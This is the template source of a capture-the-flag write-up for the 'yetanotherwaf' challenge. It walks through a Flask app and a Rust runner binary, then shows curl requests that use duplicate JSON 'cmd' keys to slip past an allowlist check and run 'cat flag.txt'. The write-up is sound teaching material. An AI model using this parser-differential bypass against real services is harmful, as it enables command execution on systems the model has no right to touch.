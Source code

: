 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Initial thoughts", "initial-thoughts")}}

{{text("In this challange, we get a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>app.py</code> file that contains a web application in <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>python</code> and a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>runner</code> file.")}}

{{text("Let's analyse the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>flask</code> application first.")}}

{{console("import json
import requests
from flask import Flask, request, abort

app = Flask(__name__)


@app.route('/run', methods=['POST'])
def run():
    payload = json.loads(request.data)
    if 'cmd' in payload:
        command = payload['cmd']
        if command != 'id':
            abort(403)
        else:
            payload = f'{{\"content\":{request.data.decode()}}}'
            print(payload)
            r = requests.post(\"http://runner/api/run\", headers={\"Content-Type\": \"application/json\"}, data=payload)
            return r.content
    else:
        abort(404)


@app.get(\"/\")
def index():
    return \"You can't connect to this API with your browser. Check the source code.\"


if __name__ == \"__main__\":
    app.run(port=5000)")}}

{{text("It seems like a simple application, if we make a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>POST</code> request to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>run</code> endpoint and we add <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>JSON</code> payload equal to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd: id</code>, it will return the result. If the payload cotains anything else than <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> it will abort.")}}

{{text("Our request is passed to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://runner/api/run</code> endpoint, which is probably our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>runner</code> file.")}}

{{header("Reverse engineering", "reverse-engineering")}}

{{text("Let's try to reverse engineer that binary file.")}}

{{text("When I tried passing the file into <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>IDA</code>, I instantly knew it was a bad idea. The file was taking too long to load.")}}

{{text("I could have predicted that, since the file was almost <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>80MB</code>. When it finally loaded - it was even worse.")}}

{{image("../../static/writeups/yetanotherwaf/images/000001.jpg")}}

{{text("There were <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>32456</code> different functions in the file. I love rust.")}}

{{text("I had to narrow the search field. Since we know that the web application has something to do with passing JSON, and the way we get the flag is probably by sending a POST request with correct JSON, I searched for functions with JSON in them.")}}

{{image("../../static/writeups/yetanotherwaf/images/000002.jpg")}}

{{text("A lot less functions. We can notice that this file uses a lot of functions that contain the word <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>serde</code>, which is probably a library.")}}

{{text("I tried searching for more information on it.")}}

{{link("https://github.com/serde-rs/json", "./../static/writeups/images/github.jpg", "Serde JSON")}}

{{text("This is what our application uses. Unfortunately, I couldn't find any known vulnerability or exploit we could use against the application.")}}

{{header("Getting the flag", "getting-the-flag")}}

{{text("Let's go back to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>app.py</code> file.")}}

{{text("Application requires us to send <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd: id</code> in a POST request, but what if we send multiple <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd</code> keys?")}}

{{console("curl -X POST https://yaw.ecsc25.hack.cert.pl/run \\
  -H \"Content-Type: application/json\" \\
  -d '{\"cmd\": \"id\", \"cmd\": \"id\"}'", "uid=1000(appuser) gid=1000(appuser) groups=1000(appuser),100(users)")}}

{{text("It still works. Now I wonder if we can change one of the commands to trick the program into passing the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>if command != 'id':</code> check, and then executing another command.")}}

{{console("curl -X POST https://yaw.ecsc25.hack.cert.pl/run \\
  -H \"Content-Type: application/json\" \\
  -d '{\"cmd\": \"whoami\", \"cmd\": \"id\"}'", "appuser")}}

{{text("It worked! We should be able to print out the flag now.")}}

{{console("curl -X POST https://yaw.ecsc25.hack.cert.pl/run \\
  -H \"Content-Type: application/json\" \\
  -d '{\"cmd\": \"cat flag.txt\", \"cmd\": \"id\"}'", "ecsc25{names_within_an_object_SHOULD_be_unique}")}}

{{text("But why does it work? If we switch <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cat flag.txt</code> with each other, we get <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>You don&#39;t have the permission to access the requested resource. It is either read-protected or not readable by the server.</code>")}}

{{text("This is because the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>app.py</code> file takes the last key with <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd</code>  and reads it's key. If it's not <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code>, then it fails.")}}

{{text("However, the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Serde JSON</code> library we discovered earlier takes the first <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cmd</code> key and executes it's content.")}}

{{text("So, Serdle reads <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cat flag.txt</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>app.py</code> reads <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>id</code>. This is why we are getting the flag, and why every JSON key should be unique.")}}

{{script()}}